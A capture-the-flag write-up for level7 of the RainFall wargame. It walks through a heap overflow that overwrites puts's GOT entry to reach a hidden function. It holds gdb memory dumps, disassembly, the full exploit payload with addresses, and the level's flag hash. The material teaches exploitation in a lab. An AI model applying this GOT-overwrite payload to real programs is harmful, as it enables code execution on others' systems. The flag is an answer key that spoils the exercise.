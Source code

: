 ## Flag7 README: Finding Flag7

So the idea is how can we read c. And we can see there is some dead code with the function m that read c. What we are going to do is do a got with the puts function. So first what we have to do is search for the heap allocation.

let's see with this test :
run AAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBB
heap :
(gdb) x/64wx 0x804a018 - 16
0x804a008:	0x00000001	0x0804a018	0x00000000	0x00000011
0x804a018:	0x41414141	0x41414141	0x41414141	0x00414141
0x804a028:	0x00000002	0x0804a038	0x00000000	0x00000011
0x804a038:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a048:	0x00424242	0x00000000	0x00000000	0x00000000
0x804a058:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a078:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a088:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a098:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0d8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0e8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0f8:	0x00000000	0x00000000	0x00000000	0x00000000

0x804a008:	0x00000001
this is   *(_DWORD *)v6 = 1;
and this 0x0804a018 is the adress of the heap allocation *((_DWORD *)v6 + 1) = malloc(8u);
We can see that there is the adress 0x00000002 is the   *(_DWORD *)v5 = 2; in our code.
this is our ptr 0x0804a038 to the buffer *((_DWORD *)v5 + 1) = malloc(8u);

(gdb) p m
$1 = {<text variable, no debug info>} 0x80484f4 <m>




(gdb) disas 0x8048400
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
   0x08048406 <+6>:	push   $0x28
   0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.
(gdb) x 0x8049928
0x8049928 <puts@got.plt>:	0x08048406

Let's try to overide this adress 0x0804a038 with the adress of our function got (\x28\x99\x04\x08)

(gdb) run $(python -c 'print("\x90" * 20 + "\x28\x99\x04\x08" + " " + "BBBBBBBBBBBBB")')

(gdb) x/64wx 0x804a018 - 16
0x804a008:	0x00000001	0x0804a018	0x00000000	0x00000011
0x804a018:	0x90909090	0x90909090	0x90909090	0x90909090
0x804a028:	0x90909090	0x08049928	0x00000000	0x00000011
0x804a038:	0x00000000	0x00000000	0x00000000	0x00020fc1
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000


and we can see that now at the adress of our got we have our b :
(gdb) x 0x8049928
0x8049928 <puts@got.plt>:	0x42424242

so what we just have to do is to add the adress of m function and the payload will be
python -c 'print("\x90" * 20 + "\x28\x99\x04\x08" + " " + "\xf4\x84\x04\x08")'
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9

level7@RainFall:~$ ./level7 `python -c 'print("\x90" * 20 + "\x28\x99\x04\x08" + " " + "\xf4\x84\x04\x08")'`
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
